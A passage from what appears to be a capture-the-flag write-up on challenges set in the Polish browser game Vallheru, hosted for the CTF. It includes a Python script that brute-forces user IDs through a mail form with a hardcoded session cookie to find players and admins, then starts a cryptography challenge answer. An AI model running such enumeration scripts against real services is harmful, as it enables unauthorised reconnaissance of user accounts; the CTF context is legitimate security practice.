![5881528921338.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625405700912/vnJRANLak.png align="left")

With that, I can easily create a python script to find existing users and find out who is the higher privilege user. And maybe then read messages of other players.

```python
# iterate_users.py

import requests
import urllib3
#import time

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

host = "vallheru.rozdzka.securing.pl"
url = f"https://{host}/mail.php"

headers = {"Content-Type":"application/x-www-form-urlencoded"}
cookies = {"PHPSESSID":"f38c6ec82fe8f41605cd8baa8e309071"}
data = {}

for i in range(0,100000):
    #time.sleep(0.5)
    print(f"{i}      ", end="\r")
    data = {"staff":i, "mid":1}
    r = requests.post(f"{url}?send&step=send", cookies=cookies, headers=headers, data=data)

    if "Nie ma takiego gracza!" not in r.text:
        print(f"User found!: {i}")
    if "Ten gracz nie jest ani władcą ani księciem!" not in r.text:
        print(f"Admin or staff found!: {i}")

print("end")
```

I was running this script for hours, but to no avail... (only first 4 players got recognized).

# Cryptography Challenges

## *ROTmistrz*

> \_ Jeden z mieszczan wspomniał, że warto porozmawiać z rotmistrzem. Zazwyczaj można go spotkać w Auli Gladiatorów. Kto jest autorem sentencji, którą przytacza rotmistrz?\_

> *One of the townspeople mentioned that it is worth talking to the captain. He can usually be found in the Hall of Gladiators. Who is the author of the sentence quoted by the captain?*

This is an easy one, especially because hint is in the name of the challenge. Location: `Dębina -> [Wojenne Pola]Aula Gladiatorów`.

![4045794532999.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1625405740862/yvktdX6AM.png align="left")
